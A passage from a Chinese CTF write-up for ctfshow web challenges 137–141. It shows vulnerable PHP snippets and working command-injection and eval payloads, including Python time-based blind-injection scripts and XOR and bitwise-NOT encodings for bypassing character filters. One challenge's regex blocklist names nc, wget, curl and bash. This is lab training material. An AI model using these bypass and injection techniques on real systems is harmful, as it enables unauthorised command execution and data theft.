<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># tee是Linux的一个输出处理命令</span></span><br><span class="line"></span><br><span class="line">GET: ?c=<span class="built_in">ls</span> /|<span class="built_in">tee</span> f</span><br><span class="line">下载后打开文件：</span><br><span class="line">bin</span><br><span class="line">dev</span><br><span class="line">etc</span><br><span class="line">f149_15_h3r3</span><br><span class="line">home</span><br><span class="line">lib</span><br><span class="line">media</span><br><span class="line">mnt</span><br><span class="line">opt</span><br><span class="line">proc</span><br><span class="line">root</span><br><span class="line">run</span><br><span class="line">sbin</span><br><span class="line">srv</span><br><span class="line">sys</span><br><span class="line">tmp</span><br><span class="line">usr</span><br><span class="line">var</span><br><span class="line"></span><br><span class="line">GET: ?c=<span class="built_in">cat</span> /f149_15_h3r3|<span class="built_in">tee</span> f</span><br><span class="line">下载后打开文件：</span><br><span class="line">ctfshow&#123;a8cfeb83-46f9-4d7c-877d-64a8bad084e4&#125;</span><br><span class="line"><span class="comment"># ?c=cat /f149_15_h3r3|tee f</span></span><br><span class="line"><span class="comment"># 可以变式为：</span></span><br><span class="line"><span class="comment"># ?c=nl /f149_15_h3r3|tee f</span></span><br></pre></td></tr></table></figure>

<h1 id="web137"><a href="#web137" class="headerlink" title="web137"></a>web137</h1><h2 id="原始信息-46"><a href="#原始信息-46" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-13 11:25:09</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-16 22:27:49</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">ctfshow</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__wakeup</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;private class&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="built_in">static</span> <span class="function"><span class="keyword">function</span> <span class="title">getFlag</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">file_get_contents</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">call_user_func</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;ctfshow&#x27;</span>]); </span><br></pre></td></tr></table></figure>

<h2 id="解题-43"><a href="#解题-43" class="headerlink" title="解题"></a>解题</h2><p>单纯的函数调用，且是未新建类的函数的调用：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">POST: ctfshow=ctfshow::<span class="variable constant_">getFlag</span></span><br></pre></td></tr></table></figure>

<h1 id="web138"><a href="#web138" class="headerlink" title="web138"></a>web138</h1><h2 id="原始信息-47"><a href="#原始信息-47" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">ctfshow</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">__wakeup</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;private class&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="built_in">static</span> <span class="function"><span class="keyword">function</span> <span class="title">getFlag</span>(<span class="params"></span>)</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">file_get_contents</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">strripos</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;ctfshow&#x27;</span>], <span class="string">&quot;:&quot;</span>)&gt;-<span class="number">1</span>)&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;private function&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="title function_ invoke__">call_user_func</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;ctfshow&#x27;</span>]);</span><br><span class="line"></span><br></pre></td></tr></table></figure>


<h2 id="解题-44"><a href="#解题-44" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line">POST:ctfshow[<span class="number">0</span>]=ctfshow&amp;ctfshow[<span class="number">1</span>]=getFlag</span><br></pre></td></tr></table></figure>


<h1 id="web139"><a href="#web139" class="headerlink" title="web139"></a>web139</h1><h2 id="原始信息-48"><a href="#原始信息-48" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"> <span class="meta">&lt;?php</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$x</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\\$|\.|\!|\@|\#|\%|\^|\&amp;|\*|\?|\&#123;|\&#125;|\&gt;|\&lt;|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i&#x27;</span>, <span class="variable">$x</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;too young too simple sometimes naive!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$c</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>];</span><br><span class="line">    <span class="title function_ invoke__">check</span>(<span class="variable">$c</span>);</span><br><span class="line">    <span class="title function_ invoke__">exec</span>(<span class="variable">$c</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="meta">?&gt;</span> </span><br></pre></td></tr></table></figure>


<h2 id="解题-45"><a href="#解题-45" class="headerlink" title="解题"></a>解题</h2><p>看似完全一样，实际上却是限制了更多的命令。也就是说，上次的payload完全不能使用了。</p>
<p>此处要借用bash命令的执行进行时间盲注。</p>
<p>时间盲注很吃网络，网络不好说不定就直接寄了。</p>
<p>爆破目录</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"><span class="keyword">import</span> time</span><br><span class="line"></span><br><span class="line">url = <span class="string">&quot;http://def032ca-7f20-4828-ae43-a5787b0f2394.challenge.ctf.show/?c=&quot;</span></span><br><span class="line"><span class="comment"># 对应行号,列号,单个字符的匹配</span></span><br><span class="line">payload = <span class="string">&quot;if [ `ls / | awk &#x27;NR==&#123;0&#125;&#x27;|cut -c &#123;1&#125;` == &#x27;&#123;2&#125;&#x27; ];then sleep 6;fi&quot;</span></span><br><span class="line">result = <span class="string">&quot;Server Dir: &quot;</span></span><br><span class="line">row = <span class="number">6</span> </span><br><span class="line">length = <span class="number">50</span></span><br><span class="line">string = [<span class="string">&#x27;a&#x27;</span>, <span class="string">&#x27;b&#x27;</span>, <span class="string">&#x27;c&#x27;</span>, <span class="string">&#x27;d&#x27;</span>, <span class="string">&#x27;e&#x27;</span>, <span class="string">&#x27;f&#x27;</span>, <span class="string">&#x27;g&#x27;</span>, <span class="string">&#x27;h&#x27;</span>, <span class="string">&#x27;i&#x27;</span>, <span class="string">&#x27;j&#x27;</span>, <span class="string">&#x27;k&#x27;</span>, <span class="string">&#x27;l&#x27;</span>, <span class="string">&#x27;m&#x27;</span>, <span class="string">&#x27;n&#x27;</span>, <span class="string">&#x27;o&#x27;</span>, <span class="string">&#x27;p&#x27;</span>, <span class="string">&#x27;q&#x27;</span>, <span class="string">&#x27;r&#x27;</span>, <span class="string">&#x27;s&#x27;</span>, <span class="string">&#x27;t&#x27;</span>, <span class="string">&#x27;u&#x27;</span>, <span class="string">&#x27;v&#x27;</span>, <span class="string">&#x27;w&#x27;</span>, <span class="string">&#x27;x&#x27;</span>, <span class="string">&#x27;y&#x27;</span>, <span class="string">&#x27;z&#x27;</span>, <span class="string">&#x27;_&#x27;</span>, <span class="string">&#x27;0&#x27;</span>, <span class="string">&#x27;1&#x27;</span>, <span class="string">&#x27;2&#x27;</span>, <span class="string">&#x27;3&#x27;</span>, <span class="string">&#x27;4&#x27;</span>, <span class="string">&#x27;5&#x27;</span>, <span class="string">&#x27;6&#x27;</span>, <span class="string">&#x27;7&#x27;</span>, <span class="string">&#x27;8&#x27;</span>, <span class="string">&#x27;9&#x27;</span>, <span class="string">&#x27;.&#x27;</span>, <span class="string">&#x27;-&#x27;</span>]</span><br><span class="line"><span class="keyword">for</span> r <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">1</span>,row+<span class="number">1</span>):</span><br><span class="line">    r_flag = result[:]</span><br><span class="line">    <span class="keyword">for</span> c <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">1</span>,length+<span class="number">1</span>):</span><br><span class="line">        flag = result[:]</span><br><span class="line">        <span class="keyword">for</span> s <span class="keyword">in</span> string:</span><br><span class="line">            time.sleep(<span class="number">0.5</span>)</span><br><span class="line">            target = url+payload.<span class="built_in">format</span>(r,c,s)</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&quot;\r&quot;</span>,end=<span class="string">&#x27;&#x27;</span>)</span><br><span class="line">            <span class="built_in">print</span>(payload.<span class="built_in">format</span>(r,c,s))</span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                requests.get(target,timeout=<span class="number">4</span>)</span><br><span class="line">            <span class="keyword">except</span>:</span><br><span class="line">                result+=s</span><br><span class="line">                <span class="built_in">print</span>(result)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">if</span> <span class="built_in">len</span>(result) == <span class="built_in">len</span>(flag):</span><br><span class="line">            <span class="comment"># print(result)</span></span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">    <span class="keyword">if</span> r_flag == result:</span><br><span class="line">        <span class="keyword">break</span></span><br><span class="line">    result += <span class="string">&#x27; &#x27;</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">print</span>(result)</span><br></pre></td></tr></table></figure>

<p>爆破flag文件</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests</span><br><span class="line"><span class="keyword">import</span> time</span><br><span class="line"><span class="keyword">import</span> binascii</span><br><span class="line"></span><br><span class="line">url = <span class="string">&quot;http://71c7bd3e-2694-4723-8fe9-a648ef033a8d.challenge.ctf.show/?c=&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 对应行号,列号,单个字符的匹配</span></span><br><span class="line">payload = <span class="string">&quot;if [ `cat /f149_15_h3r3 | awk &#x27;NR==&#123;0&#125;&#x27;|cut -c &#123;1&#125;` == &#x27;&#123;2&#125;&#x27; ];then sleep 6;fi&quot;</span></span><br><span class="line">string = <span class="string">&quot;ctfshow-0123456789_abdegijklmnpqruvxyz&quot;</span></span><br><span class="line"></span><br><span class="line">result = <span class="string">&quot;Server value: &quot;</span></span><br><span class="line">row = <span class="number">6</span></span><br><span class="line">length = <span class="number">100</span></span><br><span class="line">status = <span class="number">1</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> r <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">1</span>,row+<span class="number">1</span>):</span><br><span class="line">    r_flag = result[:]</span><br><span class="line">    <span class="keyword">for</span> c <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">8</span>,length+<span class="number">1</span>):</span><br><span class="line">        flag = result[:]</span><br><span class="line">        <span class="keyword">for</span> s <span class="keyword">in</span> string:</span><br><span class="line">            time.sleep(<span class="number">0.5</span>)</span><br><span class="line">            p = payload.<span class="built_in">format</span>(r,c,s)</span><br><span class="line">            target = url+p</span><br><span class="line">            <span class="built_in">print</span>(p,<span class="string">&#x27;\t&#x27;</span>,s)</span><br><span class="line">            <span class="keyword">try</span>:</span><br><span class="line">                requests.get(target,timeout=<span class="number">4</span>)</span><br><span class="line">            <span class="keyword">except</span>:</span><br><span class="line">                result+=s</span><br><span class="line">                <span class="built_in">print</span>(result)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">if</span> <span class="built_in">len</span>(result) == <span class="built_in">len</span>(flag):</span><br><span class="line">            result += <span class="string">&#x27; &#x27;</span></span><br><span class="line">            <span class="comment"># break</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span> r_flag == result:</span><br><span class="line">        <span class="keyword">break</span></span><br><span class="line">    <span class="keyword">if</span> status == <span class="number">1</span>:</span><br><span class="line">        <span class="keyword">break</span></span><br><span class="line">    result += <span class="string">&#x27; &#x27;</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">print</span>(result)</span><br></pre></td></tr></table></figure>

<p>就是耗时有点长……</p>
<p>因为是依赖网络的，所以说，如果出现误差了就多跑几次吧。反正数值也不超100字符。</p>
<h1 id="web140"><a href="#web140" class="headerlink" title="web140"></a>web140</h1><h2 id="原始信息-49"><a href="#原始信息-49" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;f1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;f2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$f1</span> = (String)<span class="variable">$_POST</span>[<span class="string">&#x27;f1&#x27;</span>];</span><br><span class="line">    <span class="variable">$f2</span> = (String)<span class="variable">$_POST</span>[<span class="string">&#x27;f2&#x27;</span>];</span><br><span class="line">    </span><br><span class="line">    <span class="comment"># 两种正则表达式过滤，只允许小写字母数字</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^[a-z0-9]+$/&#x27;</span>, <span class="variable">$f1</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^[a-z0-9]+$/&#x27;</span>, <span class="variable">$f2</span>))&#123;</span><br><span class="line">            <span class="comment"># eval调用回显</span></span><br><span class="line">            <span class="variable">$code</span> = <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$f1</span>(<span class="subst">$f2</span>());&quot;</span>);</span><br><span class="line">            <span class="comment"># 如果是字符则立刻通过判断</span></span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">intval</span>(<span class="variable">$code</span>) == <span class="string">&#x27;ctfshow&#x27;</span>)&#123;</span><br><span class="line">                <span class="keyword">echo</span> <span class="title function_ invoke__">file_get_contents</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-46"><a href="#解题-46" class="headerlink" title="解题"></a>解题</h2><p>思路大概清晰了，字符回显或者无回显，传入小写或者数字的字符串。</p>
<p>参数可控。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 获取phpinfo</span></span><br><span class="line">POST: f1=system&amp;f2=phpinfo</span><br><span class="line"></span><br><span class="line"><span class="comment"># payload</span></span><br><span class="line">POST: f1=usleep&amp;f2=usleep</span><br><span class="line">POST: f1=system&amp;f2=system</span><br><span class="line">POST: f1=<span class="built_in">printf</span>&amp;f2=<span class="built_in">printf</span></span><br><span class="line">POST: f1=usleep&amp;f2=usleep</span><br><span class="line">POST: f1=assert&amp;f2=assert</span><br></pre></td></tr></table></figure>

<h1 id="web141"><a href="#web141" class="headerlink" title="web141"></a>web141</h1><h2 id="原始信息-50"><a href="#原始信息-50" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line">    <span class="variable">$v3</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;v3&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v1</span>) &amp;&amp; <span class="title function_ invoke__">is_numeric</span>(<span class="variable">$v2</span>))&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/^\W+$/&#x27;</span>, <span class="variable">$v3</span>))&#123;</span><br><span class="line">            <span class="variable">$code</span> =  <span class="keyword">eval</span>(<span class="string">&quot;return <span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;<span class="subst">$v1</span><span class="subst">$v3</span><span class="subst">$v2</span> = &quot;</span>.<span class="variable">$code</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-47"><a href="#解题-47" class="headerlink" title="解题"></a>解题</h2><h3 id="自己做的"><a href="#自己做的" class="headerlink" title="自己做的"></a>自己做的</h3><figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">解题的方法：</span><br><span class="line">1.利用<span class="built_in">eval</span>进行命令执行。</span><br><span class="line">2.利用反URL取反绕过正则表达式对字母数字下划线的限制，实现任意命令执行：</span><br><span class="line">原理：</span><br><span class="line">设置好的字符 	 =浏览器自动URL编码=&gt; [云] =浏览器自动URL解码=&gt; 服务器接收</span><br><span class="line">			如果是已经URL编码  =直接传递信息=&gt;</span><br><span class="line">服务器放出信息  =浏览器自动URL编码=&gt; [云] =浏览器自动URL解码=&gt; 客户端收</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">PHP执行： </span><br><span class="line"><span class="built_in">echo</span>(urlencode(~<span class="string">&#x27;var_dump&#x27;</span>));     =&gt; %89%9E%8D%A0%9B%8A%92%8F</span><br><span class="line"><span class="built_in">echo</span>(urlencode(~<span class="string">&#x27;system&#x27;</span>));       =&gt; %8C%86%8C%8B%9A%92</span><br><span class="line"><span class="built_in">echo</span>(urlencode(~<span class="string">&#x27;ls&#x27;</span>));			  =&gt; %93%8C</span><br><span class="line"><span class="built_in">echo</span>(urlencode(~<span class="string">&#x27;cat flag.php&#x27;</span>)); =&gt; %9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">GET:?v1=10&amp;v2=0&amp;v3=-(~%89%9E%8D%A0%9B%8A%92%8F)((~%<span class="number">8</span>C%<span class="number">86</span>%<span class="number">8</span>C%<span class="number">8</span>B%<span class="number">9</span>A%<span class="number">92</span>)(~%<span class="number">93</span>%<span class="number">8</span>C));</span><br><span class="line">=相当于=&gt; -(var_dump(system(<span class="string">&#x27;ls&#x27;</span>)));</span><br><span class="line"><span class="built_in">return</span>: </span><br><span class="line">flag.php</span><br><span class="line">index.php</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">GET:?v1=10&amp;v2=0&amp;v3=-(~%89%9E%8D%A0%9B%8A%92%8F)((~%<span class="number">8</span>C%<span class="number">86</span>%<span class="number">8</span>C%<span class="number">8</span>B%<span class="number">9</span>A%<span class="number">92</span>)(~%<span class="number">9</span>C%<span class="number">9</span>E%<span class="number">8</span>B%DF%<span class="number">99</span>%<span class="number">93</span>%<span class="number">9</span>E%<span class="number">98</span>%D1%<span class="number">8</span>F%<span class="number">97</span>%<span class="number">8</span>F));</span><br><span class="line">=相当于=&gt; -(var_dump(system(<span class="string">&#x27;cat flag.php&#x27;</span>)));</span><br><span class="line"><span class="built_in">return</span>:</span><br><span class="line">&lt;?php</span><br><span class="line"></span><br><span class="line">/*</span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># @Author: h1xa</span></span><br><span class="line"><span class="comment"># @Date:   2020-09-21 21:31:23</span></span><br><span class="line"><span class="comment"># @Last Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># @Last Modified time: 2020-10-16 22:41:40</span></span><br><span class="line"><span class="comment"># @email: h1xa@ctfer.com</span></span><br><span class="line"><span class="comment"># @link: https://ctfer.com</span></span><br><span class="line"></span><br><span class="line">*/</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;14125187-c0ec-4296-b3ea-fd0266036b9d&#125;&quot;</span>;</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<h3 id="官方视频分析-自己分析的"><a href="#官方视频分析-自己分析的" class="headerlink" title="官方视频分析+自己分析的"></a>官方视频分析+自己分析的</h3><figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 题目$v3正则表达式当前限制为禁止输入字母数字下划线</span></span><br><span class="line"><span class="comment"># ---------------------------------- # </span></span><br><span class="line">原理：</span><br><span class="line">phpinfo(); ==&gt; 可以执行</span><br><span class="line">1+phpinfo()+1;==&gt; 也可执行</span><br><span class="line">1+(<span class="string">&#x27;phpinfo&#x27;</span>)()+1;==&gt; 依然可执行</span><br><span class="line">异或：XOR，^</span><br><span class="line"><span class="comment"># 异或的意思，就是相同就变化，不同就不变。下面的就是例子</span></span><br><span class="line"><span class="comment"># 这里的利用点：ascii码转16进制字符串（这个我是真没想到），再与超出ascii的十六进制值进行比较，得出异或值</span></span><br><span class="line"><span class="comment"># 只要使用ascii跟 %fa 异或，再用异或得到的值在传参是异或回来即可得到相应的页面值</span></span><br><span class="line"><span class="comment"># phpinfo =&gt; (%8A%92%8A%93%94%9C%95^%fa%fa%fa%fa%fa%fa%fa)</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment">#构造：</span></span><br><span class="line"><span class="comment">#=&gt;p</span></span><br><span class="line"><span class="comment"># 二进制数 十六进制数</span></span><br><span class="line">1111 1010 %fa <span class="comment"># 用来异或的超出ascii的字符</span></span><br><span class="line">1000 1010 %8a <span class="comment"># 上面和下面异或出来能得到中间这层</span></span><br><span class="line">-------------</span><br><span class="line">0111 0000 %70 <span class="comment"># p</span></span><br><span class="line"></span><br><span class="line"><span class="comment">#=&gt;h</span></span><br><span class="line">1111 1010 %fa </span><br><span class="line">1001 0010 %92</span><br><span class="line">------------</span><br><span class="line">0110 1000 %68</span><br><span class="line"></span><br><span class="line"><span class="comment"># 将信将疑的实验了下效果：</span></span><br><span class="line">$ php -r <span class="string">&quot;echo urldecode(&#x27;%fa%fa&#x27;)^urldecode(&#x27;%8a%92&#x27;);&quot;</span></span><br><span class="line">ph</span><br><span class="line"><span class="comment"># 真的做到了！！！</span></span><br><span class="line"></span><br><span class="line">利用php脚本，跑出的能显示的ascii码二进制在8bit当中也全是首位0</span><br><span class="line">当首位大于1时，必定是大于ascii码的。</span><br><span class="line"><span class="comment"># 跑出来的结果在这个题解最下面那儿</span></span><br><span class="line"><span class="comment"># 能跑出两个，就代表能跑出全部的phpinfo！而且不依赖 &quot;~&quot; (取反字符)</span></span><br></pre></td></tr></table></figure>

<p>php脚本：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="keyword">while</span> (<span class="literal">true</span>) &#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;Please give me the key string: &quot;</span>;</span><br><span class="line">    <span class="variable">$a</span> = <span class="title function_ invoke__">rtrim</span>(<span class="title function_ invoke__">fgets</span>(STDIN), <span class="string">&quot;\r\n&quot;</span>);</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;value: (&#x27;</span>;</span><br><span class="line">    <span class="keyword">for</span> (<span class="variable">$i</span> = <span class="number">0</span>; <span class="variable">$i</span> &lt; <span class="title function_ invoke__">strlen</span>(<span class="variable">$a</span>); <span class="variable">$i</span>++) &#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">urlencode</span>(<span class="title function_ invoke__">urldecode</span>(<span class="string">&#x27;%fa&#x27;</span>) ^ <span class="title function_ invoke__">urldecode</span>(<span class="string">&#x27;%&#x27;</span> . <span class="title function_ invoke__">bin2hex</span>(<span class="variable">$a</span>[<span class="variable">$i</span>])));</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;^&#x27;</span>;</span><br><span class="line">    <span class="keyword">for</span> (<span class="variable">$i</span> = <span class="number">0</span>; <span class="variable">$i</span> &lt; <span class="title function_ invoke__">strlen</span>(<span class="variable">$a</span>); <span class="variable">$i</span>++) &#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&#x27;%fa&#x27;</span>;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;)&#x27;</span> . PHP_EOL;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<p>php脚本跑出的关键函数名以及命令：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">Please give me the key string: phpinfo</span><br><span class="line">value: (%8A%92%8A%93%94%9C%95^%fa%fa%fa%fa%fa%fa%fa)</span><br><span class="line">Please give me the key string: system</span><br><span class="line">value: (%89%83%89%8E%9F%97^%fa%fa%fa%fa%fa%fa)</span><br><span class="line">Please give me the key string: <span class="built_in">ls</span></span><br><span class="line">value: (%96%89^%fa%fa)</span><br><span class="line">Please give me the key string: <span class="built_in">cat</span> flag.php</span><br><span class="line">value: (%99%9B%8E%DA%9C%96%9B%9D%D4%8A%92%8A^%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa)</span><br></pre></td></tr></table></figure>

<p>payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># phpinfo()</span></span><br><span class="line">GET: ?v1=<span class="number">1</span>&amp;v2=<span class="number">2</span>&amp;v3=*(%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>A%<span class="number">93</span>%<span class="number">94</span>%<span class="number">9</span>C%<span class="number">95</span>^%fa%fa%fa%fa%fa%fa%fa)()*</span><br><span class="line"><span class="keyword">return</span>: 正常回显phpinfo</span><br><span class="line"></span><br><span class="line"><span class="comment"># system(ls)</span></span><br><span class="line">GET: ?v1=<span class="number">1</span>&amp;v2=<span class="number">2</span>&amp;v3=*(%<span class="number">89</span>%<span class="number">83</span>%<span class="number">89</span>%<span class="number">8</span>E%<span class="number">9</span>F%<span class="number">97</span>^%fa%fa%fa%fa%fa%fa)(%<span class="number">96</span>%<span class="number">89</span>^%fa%fa)*</span><br><span class="line"><span class="keyword">return</span>: 正常回显phpinfo</span><br><span class="line"></span><br><span class="line"><span class="comment"># system(cat flag.php)</span></span><br><span class="line">GET: ?v1=<span class="number">1</span>&amp;v2=<span class="number">2</span>&amp;v3=*(%<span class="number">89</span>%<span class="number">83</span>%<span class="number">89</span>%<span class="number">8</span>E%<span class="number">9</span>F%<span class="number">97</span>^%fa%fa%fa%fa%fa%fa)(%<span class="number">99</span>%<span class="number">9</span>B%<span class="number">8</span>E%DA%<span class="number">9</span>C%<span class="number">96</span>%<span class="number">9</span>B%<span class="number">9</span>D%D4%<span class="number">8</span>A%<span class="number">92</span>%<span class="number">8</span>A^%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa%fa)*</span><br><span class="line"><span class="keyword">return</span>: 正常回显flag，不过还是藏在源码当中。</span><br></pre></td></tr></table></figure>


<p>题外小解：跑出来的可以明文的ascii所对应的二进制值</p>
